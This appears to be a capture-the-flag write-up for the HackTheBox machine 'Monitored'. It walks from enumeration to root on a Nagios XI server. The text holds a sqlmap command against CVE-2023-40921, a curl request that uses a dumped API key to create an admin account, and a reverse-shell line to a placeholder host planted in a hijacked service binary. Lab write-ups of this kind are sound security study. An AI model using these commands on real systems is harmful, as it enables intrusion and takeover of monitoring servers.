 ```yaml
---
layout: post
title: "Monitored-Linux-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/d4988810825d26acb2e84ca0ac9feaf4.webp
---
```


# Monitored

HackTheBox: Medium

<aside>
💡 Monitored is a machine with a service powered by nagiosxi which is useful for IT infrastructure monitoring

</aside>

## 1: Enumeration

- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_1.png' | relative_url }})
<br/><br/>
After some re-search we find some vulnerabilities with a possible slq injection but we need some creds with low privileges
<br/><br/>
![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_2.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
> If we perform a snmpwalk to get a full list about allow gadgets in the network
> 
<br/><br/>
There we find some creds, they are no useful for the main page but we can try with sqlmap

> Looking fo vulnerabilities we find a specific url which doesn’t has sanitization in a parameter (id) (CVE-2023-40921)
> 
<br/><br/>
```bash
sqlmap -u <url> --data "user&password" --level 5 --risk 3 -p id --batch(automatic) -D(db)
nagxi -T(table) --dump(get data)
```
<br/><br/>
![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_3.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1/d0bfa8f8-013a-4578-ab49-3bbaf70e1252-export-49959e46-a755-4fcf-8998-f9537419a5b1_Untitled_4.png' | relative_url }})
<br/><br/>
> Now we have an auth token and we are able to create a new user for nagios
> 
<br/><br/>
```bash
curl -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=admin111&password=admin111&name=Admin111&email=admin111@localhost&auth_level=admin"
```
<br/><br/>
We get into nagios dashboard in the route 
<br/><br/>
1. Core config
<br/><br/> 
2. Commands and create a new command(rev shell)
<br/><br/>
3. apply conf
<br/><br/>
4. Monitoring→host→local→checkcommand
<br/><br/>
5. Listen on specific port and user flag got it
<br/><br/>
## 3: Priv esc
<br/><br/>
```bash
[linpeas.sh](http://linpeas.sh/):
/etc/systemd/system/multi-user.target.wants/mariadb.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
/etc/systemd/system/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
```
<br/><br/>
We can modify /usr/local/nagios/bin/npcd file.
<br/><br/>
Check out what we can run as root:
<br/><br/>
```bash
sudo -l:
....
/usr/local/nagiosxi/scripts/manage_services.sh *
```
<br/><br/>
We can start/stop npcd.service.
<br/><br/>
```bash
$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
$ rm npcd

## pass a new npcd file with the rev shell lines (Dont try to modify a bin
##in those conditions is almost imposible)

#!/bin/bash

## bash -i >& /dev/tcp/YOUR-IP/YOUR-PORT 0>&1

##Start nc on your local machine, then:
$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```
<br/><br/>
machine pwned!!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
